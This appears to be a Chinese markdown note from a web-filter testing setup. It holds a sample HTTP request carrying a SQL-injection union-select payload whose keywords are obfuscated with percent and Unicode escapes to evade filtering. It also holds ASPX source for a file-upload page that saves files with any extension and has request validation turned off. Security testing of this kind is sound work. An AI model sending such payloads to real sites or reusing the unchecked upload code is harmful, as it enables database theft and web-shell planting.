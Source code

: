 http://test.iis7.com/charseki.aspx

### 报文示例

```
POST /charseki.aspx?aaa=1+union+se%lect+1,2,3,4+fro%m+adm%in HTTP/1.1
Host: test.iis7.com
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/3.0 (compatible; Indy Library)
Accept: text/html, */*
Content-Length: 48

bbb=1+union+%u0053elect+1,2,3,4,+%u0066rom+admin
```

![image-20230112105349321](static/img/63f4a5a1f144a01007766c57.png)

### aspx源码（文件上传）

```asp
<%@ Page Language="C#" ContentType="text/html"  validateRequest="false" aspcompat="true"%>

<%
    HttpFileCollection files = Request.Files;
    ArrayList filenames = new ArrayList();

    for(int i = 0;i < files.Count; ++i)
    {
        string suffix  = "";
        if (files[i].FileName.Contains(".")) {
            suffix = files[i].FileName.Substring(files[i].FileName.LastIndexOf(".")); ;
        }
       
        string filename = "/upload/" + System.Guid.NewGuid().ToString() + suffix;
        string filepath = HttpContext.Current.Request.MapPath("~/") + filename;
        files[i].SaveAs(filepath);
        filenames.Add(filename);
    }

    string body = "{\"file\":";
    string message = "";
    for (int j = 0; j < filenames.Count; j++) {
        message = message + "\"" +  filenames[j].ToString() + "\",";
    }
    message = message.Substring(0, message.Length - 1);
    if (filenames.Count > 1) {
        message = "[" + message + "]";
    }
```